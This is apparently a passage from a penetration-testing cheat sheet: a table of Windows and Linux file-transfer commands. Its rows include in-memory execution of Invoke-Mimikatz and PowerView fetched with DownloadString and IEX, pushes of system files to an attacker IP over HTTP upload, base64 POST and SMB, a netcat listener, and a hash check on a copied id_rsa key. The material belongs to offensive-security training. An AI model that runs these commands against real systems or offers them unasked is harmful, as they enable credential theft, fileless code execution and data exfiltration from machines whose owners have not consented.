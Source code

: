 | ``Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`` | Checking the md value of a file in windows -PWSH |

| ``IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')` **OR** `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') \| IEX`` | PowerShell DownloadString - Fileless Method -PWSH |

| ``Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`` | From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. -PWSH |

| ``Invoke-WebRequest https://<ip>/PowerView.ps1 \| IEX`` | There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter -UseBasicParsing. -PWSH |

| ``IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`` | Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command -PWSH |

| `**SMB File Sharing**` |  |

| ``sudo impacket-smbserver share -smb2support /tmp/smbshare` **OR** `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`` | We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with smbserver.py from Impacket |

| ``copy \\192.168.220.133\share\nc.exe` **OR** `net use n: \\192.168.220.133\share /user:test test`` | Copy a File from the SMB Server -CMD |

| `**FTP File Sharing**` |  |

| ``sudo pip3 install pyftpdlib`` | Installing the FTP Server Python3 Module - pyftpdlib |

| ``sudo python3 -m pyftpdlib --port 21`` | Setting up a Python3 FTP Server |

| ``(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')`` | Transfering Files from an FTP Server Using PowerShell |

| `**PowerShell Web Uploads**` |  |

| ``pip3 install uploadserver`` | Installing a Configured WebServer with Upload |

| ``python3 -m uploadserver`` | Installing a Configured WebServer with Upload |

| ``IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`` | PowerShell Script to Upload a File to Python Upload Server |

| ``Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`` | Uploading the file using the script |

| `**PowerShell Base64 Web Upload**` |  |

| ``$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`` | PowerShell Script to Upload a File to Python Upload Server |

| ``Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`` | Uploading the file using Powershell script |

| ``nc -lvnp 8000`` | We catch the base64 data with Netcat and use the base64 application with the decode option to convert the string to the file. |

| ``echo <base64> \| base64 -d -w 0 \> hosts`` | Decoding |

| `**SMB Uploads**` |  |
